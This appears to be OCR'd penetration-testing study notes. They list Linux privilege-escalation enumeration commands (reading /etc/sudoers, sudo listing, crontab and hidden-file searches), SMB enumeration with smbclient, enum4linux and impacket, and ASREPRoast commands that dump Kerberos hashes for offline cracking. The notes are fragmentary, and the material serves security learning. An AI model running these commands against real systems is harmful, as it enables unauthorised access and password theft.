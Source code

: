 
hostname
id
w
lastlog |grep -v "Never" : Users that have previously logged onto the system
-> To test

grep -v -e '^$' /etc/sudoers |grep -v "#"

echo '' | sudo -S -l -k

ls -ahl /root
ls -ahl /home
find / -name ".*" -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; :Hidden Files

grep "PermitRootLogin " /etc/ssh/sshd_config 2>/dev/null | grep -v "#" | awk '{print  $2}': is root permitted to login via ssh

find /etc/cron* -perm -0002 -type f -exec ls -la {} \; -exec cat {}

ls -la /var/spool/cron/crontabs
ls -la /etc/anacrontab; cat /etc/anacrontab
ls -la /var/spool/anacron

##### Temp:


-> docker0


NOPASSWD: specifies that no password will be asked while executing the file
SETENV


--- 

### Discovery

1. Check the source to potentiolly find 
   - If searching there are parameter (e.g. ?= try LFI)
   - Search for comment
   - Search for disabled functionnality
   - Search for the copyright -> find how old it is
   - Search for php 
     - May need to test https://domain/*index.php*




zgrep "authen" access.log* | grep -v 'gobuster\|Fuzz Faster U Fool\|Nikto\|Nmap Scripting Engine'
zgrep "pass" access.log* | grep -v 'gobuster\|Fuzz Faster U Fool\|Nikto\|Nmap Scripting Engine'



### SMB Enumeration

[Enum4linux](https://github.com/CiscoCXSecurity/enum4linux) is a tool for enumerating information from Windows and Samba systems.

```bash
smbclient -L //$ip # Perform SMB Finger Printing
nmap -sU --script nbstat.nse -p 137 IP # Attempts to retrieve the target's NetBIOS names and MAC address.
enum4linux -a IP # Perform all simple enumeration
/opt/impacket/examples/lookupsid.py USER:PASSWORD@victim.com
```

https://github.com/joker2a/OSCP#enumeration


For more information about that technique refer to [T1087 - Account Discovery](https://attack.mitre.org/techniques/T1087/)

### File Shares Enumeration

#### ASREPRoast

The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).

That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

```powershell
Get-DomainUser -PreauthNotRequired -verbose # List vuln users using
```

```bash
# Try all the usernames in usernames.txt
python GetNPUsers.py *domainip*/ -usersfile *usernames.txt* -format hashcat -outputfile hashes.asreproast
# Use domain creds to extract targets and target them
python GetNPUsers.py *domainip*/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

mode: 18200

For more information about that technique refer to [T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/)

